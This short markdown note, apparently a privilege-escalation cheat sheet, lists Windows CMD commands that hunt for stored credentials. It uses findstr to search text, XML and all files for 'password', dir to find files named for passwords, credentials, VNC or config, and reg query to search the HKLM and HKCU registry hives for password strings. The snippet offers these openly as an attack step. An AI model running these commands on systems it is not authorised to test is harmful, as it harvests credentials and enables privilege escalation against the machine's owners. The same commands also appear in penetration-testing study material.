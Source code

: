 Need to escalate privileges without fancy tools?
====

1) open CMD
----------

```
2) findstr /si password *.txt
findstr /si password *.xml
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /spin "password" *.*
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
